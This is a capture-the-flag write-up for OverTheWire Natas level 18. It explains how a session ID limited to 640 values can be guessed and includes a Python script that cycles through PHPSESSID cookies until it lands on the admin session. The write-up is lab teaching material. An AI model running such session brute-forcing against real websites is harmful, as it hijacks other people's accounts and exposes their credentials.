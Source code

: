 # This is a write-up for Natas - level 18

After reading the page, I figure it has to do with cookies. Once I inspect them with Firefox "inspect", I find PHPSESSID, which seems promising. It is set to 195, and I try changing it a few times and reloading. 
Nothing happens. However, PHPSESSID is a part of the sourcecode in the function my_session_start. 
After reading through the function, I realize I should try setting debug to true with ?debug=true in the url. When doing that and changing PHPSESSID, I find that every time I change PHPSESSID, I get "session was old: admin flag set". 
This also happens when I switch it back to something it was earlier (e. g. 4->5 reload, "admin flag set", 5->5 reload, no message, 5->4 reload, "admin flag set". This means that the array key 'admin' does not exist yet when I change the PHPSESSID, even when setting it back to an old value.

## I feel stuck, so I try something new: setting the PHPSESSID to a string

Changing the ID to a string shows me a form, which I find in the code as the variable $showform - this variable is sometimes true, depending on whether you just logged in or not. If you didn't just log in, the form shows. 
When you log in (thus passing a request with the array keys "username" and "password"), the following code is executed: 'session_id(createID($_REQUEST["username"]));'
I look at createID and realize it is a random function that returns a number between 1 and 640 with a comment saying that 640 'should be enough for all users'. I realize that this can be exploited by using a script that runs through all possible ID's. 

## Explanation of the exploit
How can we exploit that there are only 640 possible session id's? Well, the PHPSESSID is set to some number during the last login by the admin, call it x.
Assuming that the admin logged in at least once, we know that x is between 1 and 640. 
We let i loop through these numbers. In most cases, the server reads PHPSESSID (which is set to i) and fetches a session where either $_SESSION["admin"] is not set or is FALSE. 

However, once i=x the server will read PHPSESSID and fetch the admin session. Then, when the function print_credentials() is run, we have a session where $_SESSION["admin"] is TRUE, and this can be read off in the print_credentials() message.

Knowing the success message, the script can search for that message and then stop when it finds the one that corresponds to the admin session.

The below script does what I just explained. It uses the requests library, which you can find documentation for here: https://requests.readthedocs.io/en/latest/

## Start of python code

import requests
from requests.auth import HTTPBasicAuth

basicAuth=HTTPBasicAuth('natas18', '<secret-password>')
headers = {'Content-Type': 'application/x-www-form-urlencoded'}

u="http://natas18.natas.labs.overthewire.org/index.php"

for i in range(1,641):
    payload = {"PHPSESSID": str(i)}
    # This line stores the response from the server
    response = requests.get(u, cookies=payload, headers=headers, auth=basicAuth, verify=False)
    print(i)
    if "You are an admin" in response.text:
        print(response.text)
        print("the admins session id was:", i)
        break

## End of python code

When I ran it, the code stopped at 119. Just for fun I opened firefox, set the cookie PHPSESSID to 119 and reloaded, and found the credentials for the next level, as expected.

